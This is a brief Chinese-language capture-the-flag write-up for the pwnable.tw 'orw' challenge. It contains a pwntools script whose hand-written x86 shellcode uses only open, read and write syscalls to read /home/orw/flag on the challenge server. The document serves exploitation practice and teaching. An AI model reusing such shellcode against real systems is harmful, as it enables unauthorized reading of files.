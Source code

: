 这题是让你上传 shellcode，然后程序去执行，但是题目说了，只能用 open、read、write 三个函数，而且已经说明了 flag 的路径是 /home/orw/flag

所以我们只要写汇编代码 open-read-write 这个文件的内容就可以了

exp

```python
from pwn import  *

p = remote('chall.pwnable.tw',10001)

p.recvuntil(':')

shellcode='''
push {};
push {};
push {};
push {};
mov ebx,esp;
xor ecx,ecx;
xor edx,edx;
xor eax,eax;
mov al,0x5;
int 0x80;
mov ebx,eax;
xor eax,eax;
mov al,0x3;
mov ecx,esp;
mov dl,0x30;
int 0x80;
mov al,0x4;
mov bl,1;
mov dl,0x30;
int 0x80;
'''.format(hex(u32('ag'+chr(0)+chr(0))),hex(u32('w/fl')),hex(u32('e/or')),hex(u32('/hom')))

p.send(asm(shellcode))
p.interactive()
```

